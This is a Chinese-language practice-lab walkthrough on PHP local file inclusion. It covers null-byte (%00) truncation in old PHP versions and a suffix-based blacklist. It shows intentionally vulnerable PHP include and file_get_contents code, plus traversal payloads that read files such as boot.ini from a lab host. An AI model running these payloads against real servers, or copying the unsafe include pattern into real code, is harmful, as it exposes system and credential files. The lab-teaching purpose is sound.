 #### LFI-2 00截断

##### 00截断

PHP `5.3.29`及其之前的版本存在`00`漏洞，phpstudy一般下载都会失败

访问：https://windows.php.net/downloads/releases/archives/

##### 源码

![image-20241031095812790](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031095812790.png)

```php
<?php
include("includes/".$_GET['library'].".php"); 
?>
```

> include/+文件名/+.php

`include/`理解为文件目录，回退使用`../`

后缀添加了`.php`,使用`%00`截断

##### 包含php文件

![image-20241031095728513](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031095728513.png)

```bash
http://192.168.70.10:8101/LFI-2/index.php?library=../1
```

![image-20241031095624634](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031095624634.png)



##### 包含非php文件

比如一个ini，那么就使用`../../boot.ini`，然后再用`%00`吧.php截断

```bash
inlcude/../boot.ini%00.php
#或者直接访问目录下的php文件，只是不加扩展名了
```

#### LFI-3 黑名单:文件名后缀

![image-20241031100404087](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241031100404087.png)

```bash
<?php
if (substr($_GET['file'], -4, 4) != '.php')
 echo file_get_contents($_GET['file']);
else
 echo 'You are not allowed to see source files!'."\n";
?>
```
